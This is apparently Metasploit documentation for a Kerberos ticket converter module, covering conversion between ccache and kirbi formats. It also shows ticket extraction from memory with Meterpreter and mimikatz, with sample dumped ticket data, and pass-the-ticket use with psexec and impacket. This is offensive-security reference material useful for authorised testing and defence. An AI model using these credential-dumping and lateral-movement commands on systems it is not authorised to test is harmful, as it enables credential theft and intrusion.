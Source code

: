 ## Converting Kerberos Tickets

The `auxiliary/admin/kerberos/ticket_converter` module is used to convert from a ccache file format to the kirbi file format and vice versa.
The main reason you may want to convert between these file types is for use in different tools.
For example mimikatz will create tickets for you in the kirbi format but to use that in another tool
like Metasploit or Impacket you need to convert it to the ccache format first.

## Acquiring tickets

Kerberos tickets can be acquired from multiple sources. For instance:

- Retrieved directly from the KDC with the `get_ticket` module
- Forged using the `forge_ticket` module after compromising the krbtgt or a service account's encryption keys
- Extracted from memory using Meterpreter and mimikatz:

```msf
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > kiwi_cmd "sekurlsa::tickets /export"

Authentication Id : 0 ; 1393218 (00000000:00154242)
Session           : Network from 0
User Name         : DC3$
Domain            : DEMO
Logon Server      : (null)
Logon Time        : 1/12/2023 9:11:00 PM
SID               : S-1-5-18

	 * Username : DC3$
	 * Domain   : DEMO.LOCAL
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?
	 [00000000]
	   Start/End/MaxRenew: 1/12/2023 7:41:41 PM ; 1/13/2023 5:37:45 AM ; 1/1/1601 12:00:00 AM
	   Service Name (02) : LDAP ; DC3 ; @ DEMO.LOCAL
	   Target Name  (--) : @ DEMO.LOCAL
	   Client Name  (01) : DC3$ ; @ DEMO.LOCAL
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000012 - aes256_hmac
	     ab64d555f18de6a3262d921e6dc75dcf884852f551db3114f7983dbaf276e1d6
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 7	[...]
====================
Base64 of file : [0;154242]-1-0-40a50000-DC3$@LDAP-DC3.kirbi
====================
doQAAAYXMIQAAAYRoIQAAAADAgEFoYQAAAADAgEWooQAAAS2MIQAAASwYYQAAASq
MIQAAASkoIQAAAADAgEFoYQAAAAMGwpBREYzLkxPQ0FMooQAAAAmMIQAAAAgoIQA
AAADAgECoYQAAAARMIQAAAALGwRMREFQGwNEQzOjhAAABFcwhAAABFGghAAAAAMC
... etc...
====================
```

Note that tools often Base64 encode the Kirbi content to display to the user. However the `inspect_ticket` module expects
the input file to be in binary format. To convert base64 strings to binary files:

```
# Linux
cat ticket.b64 | base64 -d > ticket.kirbi

# Mac
cat ticket.b64 | base64 -D > ticket.kirbi

# Powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

## Module usage

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/ticket_converter`
3. Do: `set InputPath /path/to/ccache/or/kirbi/file`
4. Do: `set OutputPath /path/to/save/your/converted/file`
5. Do: `run`
6. You should see output similar to:
   ```
   [*] [2022.12.16-12:52:56] Converting from ccache to kirbi
   [*] [2022.12.16-12:52:56] File written to <OutputPath>
   [*] Auxiliary module execution completed
   ```
7. Your converted ticket which will have been stored at `OutputPath`
8. Example usage in Metasploit:
   ```
   use windows/smb/psexec
   run rhost=192.168.123.13 username=Administrator domaincontrollerrhost=192.168.123.1 smb::auth=kerberos smb::rhostname=host.demo.local smbdomain=demo.local smbkrb5ccname=/path/to/ccache/ticket 
   ```
9. Example usage in impacket:
   ```
   export KRB5CCNAME=/path/to/ccache/ticket
   python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
   ```
10. You may use the `inspect_ticket` module to prints the contents of the ccache/kirbi file:
   `use auxiliary/admin/kerberos/inspect_ticket`

## Scenarios

### You have a ccache file

If you have a ccache file, for example by forging it using the `auxiliary/admin/kerberos/forge_ticket` module,
but need a file in the kirbi format which is commonly used by mimikatz.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```msf
msf auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.ccache outputpath=metasploit_ticket.kirbi

[*] [2023.01.05-17:01:02] Converting from ccache to kirbi
[*] [2023.01.05-17:01:02] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.kirbi
[*] Auxiliary module execution completed
```

### You have a kirbi file

The other scenario is if you have a kirbi file, for example tools such as mimikatz will give you tickets in the kirbi format,
and you need a ccache for use with another tool such as Metasploit and Impacket.

The steps are exactly the same for a kirbi file as they are for a ccache as Metasploit will automatically detect the input file type.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```msf
msf auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.kirbi outputpath=metasploit_ticket.ccache

[*] [2023.01.05-17:01:39] Converting from kirbi to ccache
[*] [2023.01.05-17:01:39] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.ccache
[*] Auxiliary module execution completed
```
